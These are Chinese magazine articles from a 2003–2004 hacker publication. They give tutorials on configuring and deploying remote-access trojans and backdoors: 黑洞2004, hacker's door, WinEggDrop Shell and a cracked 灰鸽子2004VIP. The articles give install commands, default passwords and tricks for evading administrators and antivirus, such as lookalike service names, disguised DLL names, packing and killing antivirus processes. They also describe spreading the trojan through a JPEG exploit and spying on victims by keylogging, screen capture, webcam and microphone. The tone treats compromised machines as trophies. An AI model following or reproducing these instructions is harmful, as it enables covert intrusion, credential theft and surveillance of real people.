Gsm文件是目前世界上最小的音频文件，我们平时用的手机就是采用的这种音频格式，但Gsm文件不能直接调用电脑系统的软件进行播放，所以需要通过点击“转换”按钮将其转换为mp3格式的文件进行播放（图12）。


我们在前面配置服务端时提到，“使用屏幕录像功能”和“使用键盘记录功能”可在服务端电脑没有连接网络时，把对方的一切操作都录在本地硬盘当中。那怎么读取保存在对方电脑中的记录呢？点击“屏幕录像”按钮，在弹出的“屏幕录像”窗口可以看到保存在对方硬盘中的记录，选中记录点击鼠标右键，选择“下载录像文件”，就可将其下载到我们的硬盘中（图13）。


然后点击“资料管理”菜单下的“本地录像文件管理”命令，就可对刚下载的录像文件进行播放（图14）。

通过“键盘记录”按钮可查看保存在对方硬盘中的键盘记录，并通过“保存”命令将记录保存到自己的硬盘中（图15）。

键盘记录功能会智能判断记录输入字符的窗口名称，凡是包含“银行”两字的，程序将不会记录，而是以“*”号代替，这也是作者为了保护个人用户，避免黑洞造成不良后果特意设置的。

黑洞作为一款远程控制软件，其远程文件管理功能也非常强大。你可通过“文件管理”命令对服务端电脑中的文件进行打开、新建、重命名、删除等操作（图16）。


文件管理器中并没有上传、下载的命令菜单，用户可以通过鼠标直接把文件或文件夹拖放到目标文件夹，并且支持断点传输（图17）。

为了更好进行远程控制管理，黑洞使用了进程管理和窗口管理两种管理方式。通过进程管理，你可以查看、刷新、关闭对方的进程，如果发现有杀毒软件或者防火墙，就可关闭相应的进程，达到保护自己的目的（图18）。

窗口管理较进程管理更灵活，你可使对方窗口中的程序最大化、最小化、正常关闭等。可以搞很多恶作剧，比如让对方的某个窗口不停地最大化和最小化。

除了上面介绍的这些功能外，黑洞还包括注册表类、重启关机、远程卸载以及字符终端这些木马的常见操作，大家可以慢慢体会，在此就不多说了。


最后再说一下主动连接的方法。点击黑洞操作界面的“主动连接型”选项卡，这时“反弹连接”中的“自动上线”按钮会变为“网络设置”按钮。首先从电子邮件得到IP地址，然后在地址管理窗口点击鼠标右键，选择“添加主机”按钮，填入主机名称、IP地址、端口就可以连接成功。我们还可通过在“网络设置”中进行设置，通过代理服务器对服务端进行控制（图19）。


黑洞2004还为大家提供了现在流行的换肤功能。由于黑洞使用了Almediadv公司的界面控件，我们可以从该公司网站下载更多的页面。下载完成后解压，点击“文件”菜单中的“选择程序皮肤”命令，然后点击皮肤压缩包中的skin.ini配置文件就更换成功了。是不是更好看、更有个性了？

无论你是把黑洞当作木马还是远程控制软件，我们都可以看到：从最初的黑洞2000到现在的黑洞2004，黑洞已经有了太多改变。单从技术层面来说，就包括了世界首创杀防火墙功能、世界首创网页木马功能、世界首创同时多操作的反单连接功能等。我相信在黑洞的下一个版本中，作者会增加更多、更好的新功能。因为，黑洞会永远创新，并走在技术的最前端！

> 注：本文的撰写得到了黑洞作者陈经韬的极大帮助，特在此表示感谢！

（本文涉及的黑洞2004 Build200495、WinMD5光盘已收录）

---


不知大家是否还记得kill在去年《黑客X档案》上给我们介绍的一个nrtoolkit，那时正值冲击波漏洞公布时期，许多人虽然弄了N多肉机，但由于没有好的后门，又纷纷让“机”回归自然。而我却用国产后门hacker's door（黑客之门）过渡了很长一段时间……也由此发现了作者的网站，对于淘宝的人来说，那真是个不错的地方：http://www.ythc.com。

好了，不和大家胡诌了，今天为大家介绍yyt_hac大哥的又一力作——hacker's door（黑客之门）。

我们先来看看它的介绍：黑客之门采用的是目前一些先进的后门技术，它只有一个dll文件，通过感染系统文件启动自身，被感染的系统文件大小和日期都不会改变；同时采用线程插入技术，本身没有进程；它本身不开端口，而是重用系统进程开的任意一个端口，如80、135、139、445等，因此它的隐蔽性非常好，而且穿透防火墙也是很容易的事情。目前还没有发现任何工具能查到这个后门。

与同类dll后门一样，只要将服务端置于肉机的system32目录下即可，当然也可以改名。安装命令如下：

```
rundll32 hkdoordll,DllRegisterServer conime.exe 1 1 1
```

给大家来解释一下：“conime.exe”是你要感染的进程，默认是services.exe，如果要感染系统文件，在system32目录下的不用带路径，其它的要带路径；第一个“1”是安装方式，0表示只感染系统文件，1表示只感染进程，2表示感染系统文件，同时感染进程；第二个“1”是禁止sfc的方式，0是修改注册表，1是用closeventhangle，2是打内存补丁；第3个“1”是启动方法，0是通过创建svhost启动的服务来启动后门，1是通过修改系统文件的函数输入表来启动后门，2是系统在系统中增加代码来启动后门。

看了以上那么多文字说明是不是有点头晕？不要紧，下面和我一起看看在内网中的实验吧！

## 马运行

实验说明：安装成败信息会在system32\system.log里有记录。

我的配置：WIN XP 专业版[192.168.1.71]

对方配置：WIN 2K 专业版[192.168.66]

怎么上传文件，大家各显神通吧！嘿嘿……下面从我上传好的后门开始说起。

1. 在远程shell下运行安装命令rundll32 hkdoordll,DllRegisterServer conime.exe 1 1 1


如图1所示，安装完后没有明显的回显，这个有点麻烦，但我们可以用type system.log来查看安装结果。

这里不作详细介绍了，因为作者给我们做了四个动画教程（光盘有收录），基本问题都可在里面找到。

2. 安装成功后，我们就可用NC等工具连接了，连接前可扫描一下对方的80、135、139等开放端口。由于我在内网，所以直接连接对方的139端口了，如图2。


当用NC连上后是没有回显的，只有黑的界面，按黑输入默认的连接密码yyt_hac，就可看到简单的说明信息。然后出现backdoor的shell提示符，呵呵，喜欢ing……

3. 对于初入门的用户来说可能有点摸不着头脑，我们可以输入“？”来查看命令列表。这里不抓图了，简单地翻译下：

- **haver**: 显示已安装hackdoor后同版本信息。
- **findpass**: 得到所有登录用户的用户密码。
- **opens3389**: 开放远程桌面服务，参数1为端口（默认是3389），参数2为是否重启系统。
- **openimes**: 开放终端服务，参数同上。
- **pslist**: 列出所有进程和线程。
- **skill**: 终止远程主机进程。
- **getsysinfo**: 获取远程主机系统信息。
- **shutdown**: 远程关机，参数/r为关机，/s为重启，/p为取消。
- **syshell**: 类似于远程主机的cmd。
- **winexe**: 不显示命令行窗口执行命令。
- **openshell**: 转为远程主机的CMD提示符。

正如作者在介绍中说的，现在只是一些简单的命令，但都很实用。

关于命令的使用这里就不多说了，大家从简单的做起、多动手，这样会学得更快些，也能体会到学习的乐趣。

用如下命令卸载: `rundll32 hkdoordll,DllUnRegisterServer yyt_hac conime.exe 1 1 1`

这里，yyt_hac是连接密码，必须正确，否则不能卸载。其它的参数同安装差不多，它根据安装的方法来卸载后门。

同样，卸载成功或失败信息在system32\system.log里有记录。

## 后记

本文的工具和说明文件还有动画教程都打包放在光盘里，大家观看的时候可能发现我抓的图和作者的说明教程稍微有点出入，这是因为我的图是几个月前测试时抓的。

另，需要注意的是：system.log这个文件的生成会有延时，大家可以多用type命令看几次。光盘的工具包里有配置工具，大家可更改hackdoor的默认密码。

最后，如果使用中发现bug，请和作者联系，最好说明使用环境，同时把system32\system.log发给作者。（完）

黑客X档案2003-2004年合订本（下册）


## 牧马记

### WinEggDrop Shell 1.50 高级后门配置指南

Softbug

常听朋友喜欢玩入侵渗透测试，能玩到最高境界的也莫过于得到系统主机的 SYSTEM 权限。可是如何长期控制主机的系统权限呢？这个问题大家真的值得好好思考一番。我个人觉得木马的安装以及后门的设置其实是门艺术，不是吗？我就见过第一天得到管理员权限，第二天就被管理员发现蛛丝马迹清扫了战场的。

本文不着重介绍如何欺骗管理员，而是给大家指导最初级的后门设置指南。设置的成功与否是你能否长期控制主机的关键。这其中还将穿插一些相关知识要点的介绍。

### 一、后门的配置

在众多的 Win32 控制后门程序中，功能较强大的 WinEggDrop Shell 是大家最中意的东西了。如何才能完美的配置它呢？首先看看我们要配置哪些项目。

#### 1. 服务名，服务进程，服务描述，服务启动类型

用 WinEggDrop Shell 会产生一个后门服务程序。把一个后门安装成为服务的确是个很完美的选择，但缺点是很容易被发现。在 Windows 2000 Adv 中，我们可以设置一个比较有迷惑性的服务，让它看起来很像 Windows 自带的个服务。与其这样，为何不直接把 Windows 的服务给替换呢？其实替换服务很实用，可以通过 Windows 2003 的服务检查。如图1。


从图1中看到了吗？Windows 2003 下的服务如果不替换，定会原形毕现！

所以，我们把服务替换最好瞄准系统最不常用的服务。如果这个服务默认是停止的，那么这就正好适合用来 WinEggDrop Shell 安装（土豆旁白：后门 InjectT.exe 生成的服务在成功加载完后门到其它进程后，就会自己停止，InjectT.exe 只是一个加载程序，加载完就没有再继续运行的需要了）。至于怎么替换服务大家就各就各位吧！

#### 2. 后门端口的设置

开后门不开端口行吗？除非是 rootkit，这样管理员至少看不到。在 WinEggDrop Shell 里面我们开什么端口好呢？高于 1024 的端口肯定被发现，看图2。


呵呵！低于 1024 的端口中倒是有几个端口具有迷惑性。不是吗？1025、1026、1027 是默认打开的 TCP 端口。对一个不细心的管理员来说，可能没注意到这点就马虎过去了。决定了后门就开 1023 端口。

#### 3. Banner 信息的设置

有经验的管理员是如何在计划的时间对自己的服务器做安全检查呢？他们可能对自己的服务器做 Superscan 扫描，扫描范围从 1~65535。如果有个特别的端口打开了，管理员肯定要试着用 Telnet 登陆看看。还记得我们设置的 1023 端口吗？聪明的你一定想到了，Banner 信息就设置为空（土豆：因为 1025、1026……这些端口 Telnet 的结果都是空啊！）

#### 4. 设置邮箱用于在线 IP 通知

为了防止后门程序被反追踪，我们只需申请一个免费的 126 邮箱，千万别用自己的私人信箱。WinEggDrop Shell 提醒我们用 hotmail 的信箱，大家也可按自己的要求来选择（图3）。


#### 5. 设置注入 DLL 程序的名字

最关键的第一个地方到了。这里可设置你的后门程序叫什么名字，记得经典的后门木马改的名字都和系统很相似。比如：kernel.exe、system.exe、system32.exe、svchost.exe、ixpleror.exe 等。有些程序的文件名设置和系统文件一样，但路径放得不一样，更增加了文件的迷惑性。这里，我把后门的名字改为 kernel32.dll，放到系统目录就 OK 了。

#### 6. 设置要注入的进程名

最关键的第二个地方到了。我们可以这样考虑：如果系统中某个服务程序是 Windows 系统自己带的，而且在神不知鬼不觉的情况下被启动了，它很可能就是被考虑注入的进程名，用任务管理器查看一下。其实，svchost.exe 也是个很好的选择，萝卜青菜各有所爱嘛！

几个关键选项下来，我们就完成了 WinEggDrop Shell 的配置工作。

### 二、后门的安装使用与加固

配置完成后，将 InjectT.exe 和 kernel32.DLL 上载到 Winnt\system32 下，然后运行 InjectT.exe -run，这样就会安装为服务并运行了。关于怎么运行这个 shell，就要看你自己的了。

为了避免杀毒软件的追杀，大家可以给 dll 木马加个好壳。可能有的朋友会想：可以装 rootkit 来隐藏自己安装好的 shell，但我个人觉得这反而不好。

试想一下，管理员在 CMD 下用 netstat -an -p tcp 命令没有发现 1023 端口的打开，反而扫描到计算机打开了这个端口，这岂不是不打自招吗？

### 三、总结

在配置和升级后门的时候我们需要注意以下几点：

- 1. 如果设置要注入 DLL 的进程名字，例如你想将后门 DLL 注入到 Svchost 中去，那么你就应该输入 svchost.exe。
- 2. 你可以将 InjectT.exe 改名再上传。
- 3. 如果你将 DLL 插到一些系统的重要进程，例如 winlogon，lsass 等，请不要使用命令 stopbackdoor，因为这样做会令系统重启或崩溃。
- 4. 如果修改配置，例如端口、密码等，可以再配置一个 InjectT.exe，然后将肉鸡中的 InjectT.exe 删除，最后上载这个新配置的、重启就会生效。
- 5. 升级后门的设置很简单，你只要将新配置的 InjectT.exe 上传并替换旧的，重启后新的配置就会生效。
- 6. 确定后门 DLL 要插入的那个进程系统是存在的，例如你将插入的进程设置为 notepad.exe，如果对方系统没打开记事本（Notepad.exe），则后门是无法加载到的。
- 7. InjectT.exe 只是一个加载程序，加载完就没有再继续运行的需要了。

如果大家还有什么问题可以到 X 的官方论坛上一起讨论。

（WinEggDrop Shell 本期光盘有收录） 85

76 黑客X档案2003 2004年合订本(下册)

## 牧马记

最近，灰鸽子推出了新的2004VIP版，每只每年售价100大洋，如此高的价格使我等囊中羞涩的菜鸟望而却步。幸有高手推出了其破解版，才让我们尝到了100大洋的鸽子是什么味道。今天，笔者就将个人感觉到的味道写出来，让各位也感觉感觉！

### 配置服务器端

首先从网上下载其破解版的压缩包（光盘也有收录），然后解压并运行压缩包中的 H_Client.exe，就会打开2004VIP版灰鸽子的操作窗口（图1）。从图中可以看到，新版的灰鸽子在操作界面上和旧版的基本相似，这样也提高了我们上手的效率。


首先，我们需要设置客户端与服务端进行连接的方式，点击“自动上线”按钮，在弹出的“自动上线”窗口中进行配置。由于灰鸽子主要采用的是反弹连接方式，所以为用户提供了三种反弹连接的方式，除了大家常见的“域名反弹”和“FTP反弹”外，还为注册用户提供了专门的上线连接方式。灰鸽子专用的上线方式无需知道服务端的IP，自动上线功能会让服务端自动上线来向你报道。这种新的连接无需你注册免费域名就能使用，同时也提供了备用上线方式，在专用上线系统出现故障时，你可以使用备用上线方式来使用自动上线功能。在使用专用上线系统时，你还可以控制远程电脑，通过Socks5代理来中转自动上线（图2）。


由于我使用的是破解版，无法使用该功能，这里就不演示了。

在图2中点击“网易免费域名更新IP”选项卡，申请一个免费的网易二级域名作为服务端和客户端连接时使用。在“域名”中输入你喜欢的域名名称，并选择域名服务器，这里我填的是 http://hgz1981.yeah.net，然后再填入密码，点击旁边的“注册”按钮，一会儿就可以从窗口的提示栏中看到域名注册的提示信息，如“注册域名成功！”等（图3）。


关闭“自动上线”窗口，现在点击“配置服务程序”来配置木马的服务端。在弹出的“服务器配置”窗口中选择“自动上线”选项卡，然后把你刚刚注册的域名按照软件提示填入，你也可以输入一个连接密码（图4）。


接着切换到“安装选项”选项卡，在“安装名称”中输入一个很迷惑的名称，如 IExplorer.exe。你还可以自定义上线图像、上线备注等其它选项。如果你选择“自动删除安装文件”，服务端就会在安装后自动销毁；而更重要的就是选中“程序启动后自动使用键盘记录功能”选项，这样就算服务端和客户端没有连接时，服务端也能自动记录下对方的键盘操作（图5）。


但是为了让木马在 Win2000 及以上版本的系统中更加隐蔽一些，我们再切换到“启动项”选项卡进行设置。至于怎么写大家可以发挥想像随便编写，我们也可依照系统服务来写。不过这里需要特别注意的是，千万不能所有的信息都照抄系统服务，否则生成的木马将无法正常运行。我们就按照“Alerter”服务的说明进行模仿，把“服务名称”和“显示名称”由“Alerter”改为“Alerter”，即将第二个英文字母“l”改为阿拉伯数字“1”，这是黑客常用的一种迷惑别人的方法（图6），以后木马就会像系统的服务项一样随机启动。


最后再切换到“高级选项”选项卡，为了增强服务端的隐蔽性，灰鸽子2004VIP版采用了线程插入功能，程序默认是“插入IEXPLORE.EXE进程”。由于所有的Win2000/XP/2003系统都含有IE浏览器，所以插入到IEXPLORE.EXE进程对所有系统都有效（图7）。

## 灰鸽子2004VIP版破解版

天涯衰草

黑客X档案 2003-2004年合订本(下册)

## 牧马记

（图7）。


不过，由于现在很多用户都使用MyIE2的第三方浏览器，所以如果软件能提供根据自己的需要插入到其它程序的进程中就更好了，如插入到QQ、EXE。选择“下载配置未加壳服务端”后输入用户名称及用户密码，点击“生成服务器”按钮就可生成我们需要的木马服务端。

### 对EXE文件的修改

灰鸽子2004VIP版为用户提供了几款有用的工具。点击“工具”菜单下的“EXE图标工具”，它可以修改任何EXE文件图标，支持真彩色，不过EXE文件是需要没有进行过加壳加密处理的。在“EXE文件”中选择刚刚生成的服务端程序，然后点击“选择”按钮选择一个EXE程序，从中提取你喜欢的图标，点击“修改EXE图标”对服务端程序进行图标修改（图8）。


图标修改完成后，程序会提示你查看服务端是否能正常运行。刚刚修改的服务端程序有700KB，那是因为我们没有对服务端进行加壳压缩。运行加壳软件FSG2.0，选择服务端程序，然后软件就会自动对其进行加壳（图9），加壳后的服务端程序只有370KB左右。


为了保证服务端在修改图标及加壳后配置信息不丢失，我们可以使用“配置信息工具”进行信息修复。点击“工具”菜单中的“配置信息工具”，首先选择一个没有进行任何修改的服务端，点击“读取配置信息”按钮，然后选择进行了图标修改及加壳的服务端，再点击“恢复配置信息”按钮，就可以对可能丢失的信息进行修复（图10）。


### 让鸽子飞出去

现在我们就需要将配置好的服务端种植到别人的电脑中，方法有很多，例如利用现在闹得沸沸扬扬的JPEG漏洞。简单说一下JPEG漏洞的利用方法，首先将服务端程序上传到自己的主页空间，然后运行JPEG漏洞的利用工具Builder.exe，输入服务端程序的网页网址，点击“Make”按钮（图11），一张可怕的JPEG图形文件就这样简单的诞生了。你可以通过邮件、网页、即时通信软件、论坛等多种方法将其发布出去。


其实，灰鸽子2004VIP版带有一个类似流光的“种植者”工具，灰鸽子真的不愧为一个集众家之所长的木马。

点击“工具”菜单下的“远程安装”命令，输入远程主机的IP、用户名及密码，再选择需要上传的服务端程序，点击“开始安装”就可以将服务端上传到对方主机并执行安装（图12）。


### 深入敌后

灰鸽子2004VIP版只用一个端口来传输所有通讯数据，而普通同类软件都用到了两个或两个以上的端口来完成。并且支持可以控制Internet连接共享、HTTP透明代理上网的电脑，软件可以智能读取系统设定的代理服务器信息，无需用户设置，也就是说如果一台局域网中的电脑中了新版灰鸽子，那么这台电脑使用的代理上网主机也可以被你控制。

现在点击“自动上线”按钮，然后点击“更新IP到域名”按钮就可将本机当前的IP地址更新到域名上，现在就只有等着中我们服务端的鸽子飞回来找我吧！很快，就有一个清脆悦耳的声音提示我们有主机上线，呵呵！

在左边的肉鸡列表中随便点击一个IP地址，然后点击工具栏上的“捕获屏幕”按钮，查看对方正在做什么，这是我一贯的作风，知己知彼才能……（图13）。


从图中可以看到对方在玩游戏，虽然灰鸽子2004VIP版捕获屏幕的速度很快，但如果对方使用的分辨率很高，捕获的效果就很差了。点击屏幕上方的各个按钮，可对捕获屏幕进行各种控制。如果你不想再捕获屏幕，就点击“停止捕获”按钮。通过“传输键盘和键盘操作”按钮就可把你鼠标和键盘发出的命令在对方的屏幕执行。实际上你已经控制了对方的电脑，可在对方的桌面上“为所欲为”了。如果你有事需要离开但又怕看不到对方的操作过程，可通过“保存”按钮将其保存为静态的图片或者动态的MPEG文件。

灰鸽子在2004VIP版也推出了时下流行的摄像头监控功能。退出屏幕捕获，点击“视频监控”按钮（图14）。点击“开始视频监控”按钮，软件首先会判断对方系统是否有摄像头，如果有并且正常打开没有被占用，那么你就可以通过摄像头看到对方。选择了“保存每帧为图片”或“保存为MPEG文件”后，就可将摄像头捕捉到的内容保存为相应的文件。除了摄像头监控外，灰鸽子2004VIP版还有语音监听、语音发送的功能。这样，不但你可以……

## 牧马记

听到对方在说什么，也可通过麦克风将你要说的话传输到远程主机，并且将远程语音录制成 Wav 声音文件。


图 14

监控功能使用完后，总觉得软件不能强行打开摄像头，并且在摄像头占用时很难捕获，这样在使用起来感觉很被动。

文件管理是任何一款木马必备的功能，它可以管理远程电脑的文件系统，支持复制、粘贴、删除、断点下载、上传文件或文件夹，文件内容均以加密方式传输，能够确保通讯的安全性。新版的灰鸽子在文件管理上也做了一些调整。通过在肉鸡的任意目录点击右键或者上面的工具栏，都可以进行上述命令的操作。点击工具栏的“上传”命令，弹出一个“选择要上传的文件或文件夹”窗口（图 15），就像操作资源管理器一样方便，然后选择需要上传的文件，点击“确定”后弹出一个“目录文档上传”的窗口（图 16），从中我们可以看到文件的上传进度。


图 15


图 16

文件上传后，点击右键，选择“远程打开”菜单中的“隐藏运行”命令就可以了（图 17）。

至于其它的操作，就像在资源管理器一样简单，这里就不多叙述了。

新版灰鸽子的远程控制操作、注册表操作和以前的老版本都差不多，只有“键盘记录”功能较以前版本增强了许多，还记得配置服务端时有一个名为“程序启动后自动使用键盘记录功能”的选项吗？你只要点击“键盘记录”中的“查看点击记录”，就可看到服务端没有连接时对方的键盘操作（图 18）。


图 17


图 18

常用“命令广播”，让你控制众多主机时更加方便。对于在线主机的 IP 地址、地址位置、电脑名称、系统版本、备注等信息一目了然。2004VIP 版在“命令广播”中添加了“从主机窗口筛选”和“从主机进程筛选”两项，通过它们可以分别列出只有某个窗口的一批主机或列出运行了某个程序的一批主机。在“命令广播”中点击鼠标右键，根据自己的选择点击“筛选符合条件主机”菜单中的“从主机窗口筛选”和“从主机进程筛选”（图 19）。例如要查看谁在使用 QQ，就选择“从主机进程筛选”，在弹出的窗口中输入“QQ.exe”（图 20）。


图 19


图 20

内网用户使用反弹功能的木马一直很困难，因为必须使用到端口映射。新版的鸽子也充分考虑到了这一点，在软件中添加了内网端口映射功能。这样就可将局域网内的服务映射到 Internet 上，使你在局域网内部也能使用自动上线功能。

点击“工具”菜单中的“内网端口映射”命令，首先要生成一个端口映射的服务端程序。点击弹出的“内网端口映射”窗口中的“生成服务端程序”，然后将端口映射服务端程序 Vport1.0.exe 上传到一台直接连到因特网的主机上并运行。然后回到“内网端口映射”窗口，在“VPort 服务端 IP”中输入这台主机的 IP 地址，然后点击“连接”按钮，连接成功后，再点击下面的“映射”按钮，就将灰鸽子使用的 8000 端口映射到这台主机的 8000 端口上（图 21），以后内网用户就可以方便的使用灰鸽子了。


图 21

除了上面介绍的这些新功能外，新版灰鸽子还提供了 FTP 服务器和 Web 服务器，这样就可以很方便的在本机建立一个简单的 FTP 服务器和 Web 服务器。点击“工具”菜单下的“FTP 服务器”，选择 FTP 目录、设置端口、用户名及密码，然后点击“开启服务”按钮就可以了（图 22）。


图 22

Web 服务更简单，只需设置 WEB 目录就可以了（图 23）。
